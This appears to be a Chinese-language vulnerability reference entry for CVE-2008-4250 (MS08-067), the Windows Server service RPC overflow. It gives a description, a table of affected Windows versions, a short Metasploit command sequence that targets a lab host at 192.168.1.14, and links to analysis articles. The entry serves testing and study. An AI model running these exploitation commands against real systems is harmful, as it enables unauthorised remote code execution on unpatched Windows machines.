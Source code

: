 ### CVE-2008-4250

#### 描述

Pre-Beta中的Server服务允许远程攻击者通过精心设计的RPC请求执行任意代码，该请求会在执行以下操作时触发溢出路径规范化。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2003 |                  |         |        |                    |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |
| Windows Xp          |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2008-4250_win2003_x86_msf.png)

#### 分析文章
- https://bbs.pediy.com/thread-251219.htm
- https://www.jianshu.com/p/d086eb1ab0a6